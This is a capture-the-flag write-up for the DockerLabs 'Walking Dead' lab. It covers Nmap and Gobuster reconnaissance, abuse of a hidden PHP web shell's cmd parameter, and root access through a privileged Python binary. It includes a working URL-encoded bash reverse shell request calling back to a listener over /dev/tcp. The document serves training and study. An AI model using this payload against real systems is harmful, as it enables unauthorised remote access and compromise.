






# Walking Dead

Difficulty: Easy

Link: https://dockerlabs.es/

## Summary

- [Introduction](#introduction)
- [Exploitation](#exploitation)
- [Impact](#impact)

## Introduction

The objective of this lab is to identify a remote command execution vulnerability exposed by a web application and use it to gain initial access to the target system. From there, the exercise demonstrates how misconfigured permissions and a privileged binary can be abused to escalate privileges and obtain root access.

## Exploitation

After deploying the lab and identifying the target IP address, the first step was to perform an initial reconnaissance using Nmap.

```bash
sudo nmap -p- -sV -sC -T3 -vvv -Pn 172.17.0.2 -oN escaneo
```

The selected options were used for the following purposes: `-p-` scans all TCP ports, `-sV` detects service versions, `-sC` runs the default enumeration scripts, `-T3` uses a balanced timing template, `-vvv` increases the verbosity level, and `-Pn` assumes the host is online, skipping host discovery.

Once the scan completed, the following open ports were identified:

* **22/tcp** — SSH
* **80/tcp** — HTTP



With the available services identified, the next step was to enumerate the web application's directories using Gobuster in search of interesting resources.



The enumeration revealed the directories `backup.txt` and `hidden`. The `backup.txt` file did not contain anything relevant, while the `hidden` directory stood out as it suggested the presence of content that was not directly exposed by the application.

By accessing the web application on port 80 and reviewing the HTML source code, it was possible to observe that the `hidden` directory referenced the file `/.Shell.php`. The presence of a PHP file raised the hypothesis that it could accept parameters and execute functionality on the server.



To validate this hypothesis, parameter fuzzing was performed against the PHP file. During the tests, the `cmd` endpoint was identified, which executed the commands supplied as a parameter. As proof of concept, the `id` command was executed successfully, confirming the presence of a remote command execution vulnerability.





After confirming the vulnerability, the next step was to obtain a reverse shell. First, a Netcat listener was started:

```bash
ncat -lp 9999
```

Then, the following request was sent to the vulnerable `cmd` parameter to establish the reverse shell connection:

```text
http://172.17.0.2/hidden/.shell.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/172.17.0.1/9999+0%3E%261%27
```

The connection was established successfully, confirming that it was possible to obtain an interactive shell on the target system.

After gaining access, the user's permissions were inspected. During this phase, a Python binary with elevated privileges was identified, making privilege escalation possible.

Using the corresponding GTFOBins technique, the binary was exploited successfully, resulting in a root shell and completing the lab.



## Impact

This vulnerability allows remote command execution through a web application parameter, enabling an attacker to gain initial access to the target system. When combined with insecure permissions on a privileged Python binary, it becomes possible to escalate privileges to root, leading to a complete compromise of the machine.
